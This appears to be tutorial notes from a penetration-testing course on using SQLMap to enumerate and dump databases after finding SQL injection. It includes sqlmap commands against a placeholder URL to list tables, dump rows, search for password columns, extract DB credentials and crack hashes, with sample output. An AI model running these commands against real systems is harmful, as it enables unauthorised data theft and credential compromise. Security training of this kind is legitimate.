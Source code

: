 Enumeration represents the central part of an SQL injection attack, which is done right after the successful detection and confirmation of exploitability of the targeted SQLi vulnerability. It consists of lookup and retrieval (i.e., exfiltration) of all the available information from the vulnerable database.

### SQLMap Data Exfiltration

SQLMap has a predefined set of queries for all supported DBMSes, where each entry represents the SQL that must be run at the target to retrieve the desired content, For example, the excerpts from [queries.xml](https://github.com/sqlmapproject/sqlmap/blob/master/data/xml/queries.xml) for a MySQL DBMS:
```xml
<?xml version="1.0" encoding="UTF-8"?>

<root>
    <dbms value="MySQL">
        <!-- http://dba.fyicenter.com/faq/mysql/Difference-between-CHAR-and-NCHAR.html -->
        <cast query="CAST(%s AS NCHAR)"/>
        <length query="CHAR_LENGTH(%s)"/>
        <isnull query="IFNULL(%s,' ')"/>
...SNIP...
        <banner query="VERSION()"/>
        <current_user query="CURRENT_USER()"/>
        <current_db query="DATABASE()"/>
        <hostname query="@@HOSTNAME"/>
        <table_comment query="SELECT table_comment FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='%s' AND table_name='%s'"/>
        <column_comment query="SELECT column_comment FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='%s' AND table_name='%s' AND column_name='%s'"/>
        <is_dba query="(SELECT super_priv FROM mysql.user WHERE user='%s' LIMIT 0,1)='Y'"/>
        <check_udf query="(SELECT name FROM mysql.func WHERE name='%s' LIMIT 0,1)='%s'"/>
        <users>
            <inband query="SELECT grantee FROM INFORMATION_SCHEMA.USER_PRIVILEGES" query2="SELECT user FROM mysql.user" query3="SELECT username FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
            <blind query="SELECT DISTINCT(grantee) FROM INFORMATION_SCHEMA.USER_PRIVILEGES LIMIT %d,1" query2="SELECT DISTINCT(user) FROM mysql.user LIMIT %d,1" query3="SELECT DISTINCT(username) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS LIMIT %d,1" count="SELECT COUNT(DISTINCT(grantee)) FROM INFORMATION_SCHEMA.USER_PRIVILEGES" count2="SELECT COUNT(DISTINCT(user)) FROM mysql.user" count3="SELECT COUNT(DISTINCT(username)) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
        </users>
    ...SNIP...
```

For example if a user wants to retrieve the banner (switch `--banner`) for the target based on MySQL DBMS, the `VERSION()` query will be used for such purposes.
In case of retrieval of the current user name (switch `--current-user`), the `CURRENT_USER()` query will be used.

Another example is retrieving all the usernames (i.e., tag `<users>`). The query marked `inband` is used in non blind situations, the one marked blind is for `blind` situations.

### Basic DB Data Enumeration

Usually, after a successful detection of an SQLi vulnerability, we can begin to enumerate basic details from the database, such as the hostname of the vulnerable target (`--hostname`), current user's name (`--curent-user`), current database name (`--current-db`), or password hashes (`--passwords`). SQLMap will skip SQLi detection if it has been identified earlier and directly start the DBMS enumeration process.

Enumeration usually starts with the retrieval of basic information:

- Database version banner (switch `--banner`)
- Current user name (switch `--current-user`)
- Current database name (switch `--current-db`)
- Checking if the current user has DBA (administrator) rights.

The following SQLMap command does all of the above:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

Note: The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.

### Table Enumeration

After founding the database name:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --tables -D <database name>
```

Dumping the found table contents:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T <table name> -D <database name>
```

Tip: Apart from default CSV, we can specify the output format with the option `--dump-format` to HTML or SQLite, so that we can later further investigate the DB in an SQLite environment.

![[pVBXxRz.webp]]

### Table/Row Enumeration

We can specify columns with the `-C` option:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T <table name> -D <database name> -C <column name 1>,<column name 2>
```

We can also specify starting and ending row:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T <table name> -D <data base name> --start=2 --stop=3
```

### Conditional Enumeration

We can retrieve a row based on a known WHERE condition:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T <table name> -D <database name> --where="name LIKE 'f%'"
```

### Full DB Enumeration

We can retrieve all tables of the database by not specifying the `-T` option (e.g. `--dump -D testdb`). We can use `--dump-all` to dump all content from all databases.

In such cases, a user is also advised to include the switch `--exclude-sysdbs`, which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.

## Advanced Database Enumeration

### DB Schema Enumeration

We can retrieve the structure of all of the tables:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --schema
```

### Searching for Data

We can search for databases, tables, and columns of interest, by using the `--search` option. This option enables us to search for identifier names by using the LIKE operator. For example, if we are looking for all of the table names containing the keyword `user`, we can run SQLMap as follows:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+

Database: information_schema
[1 table]
+-----------------+
| USER_PRIVILEGES |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+

do you want to dump found table(s) entries? [Y/n] 
...SNIP...
```

In the above example, we can immediately spot a couple of interesting data retrieval targets based on these search results. We could also have tried to search for all column names based on a specific keyword (e.g. `pass`):
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
[1 column]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(41) |
+----------+----------+

Database: mysql
Table: servers
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(64) |
+----------+----------+
```

### Password Enumeration and Cracking

Once we identify a table containing passwords (e.g. `master.users`), we can retrieve that table with the `-T` option, as previously shown:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

SQLMap has automatic password hashes cracking capabilities. Upon retrieving any value that resembles a known hash format, SQLMap prompts us to perform a dictionary-based attack on the found hashes.

Hash cracking attacks are performed in a multi-processing manner, based on the number of cores available on the user's computer. Currently, there is an implemented support for cracking 31 different types of hash algorithms, with an included dictionary containing 1.4 million entries (compiled over the years with most common entries appearing in publicly available password leaks). Thus, if a password hash is not randomly chosen, there is a good probability that SQLMap will automatically crack it.

### DB Users Password Enumeration and Cracking

We can use the `--passwords` switch to attempt to dump the content of system tables containing database-specific credentials (e.g., connection credentials):
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

Tip: The '--all' switch in combination with the '--batch' switch, will automa(g)ically do the whole enumeration process on the target itself, and provide the entire enumeration details.

